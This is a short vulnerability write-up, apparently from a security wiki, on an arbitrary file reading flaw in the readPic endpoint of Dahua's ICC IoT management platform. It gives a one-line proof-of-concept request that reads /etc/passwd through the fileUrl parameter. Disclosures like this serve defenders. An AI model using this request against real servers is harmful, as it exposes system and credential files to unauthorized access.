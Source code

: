 # Dahua ICC intelligent IoT comprehensive management platform readPic arbitrary file reading vulnerability

## Vulnerability Description

Dahua ICC intelligent IoT comprehensive management platform readPic interface has arbitrary file reading vulnerability, and attackers can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dahua ICC intelligent IoT integrated management platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1699017507127-ec89d0a3-0723-47b5-8479-13e5b6225041-20231108135931436.png)

Verify POC

```php
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1699017568114-6f5e2d21-5f6b-4e68-95d3-54e5602263ae-20231108135935667.png)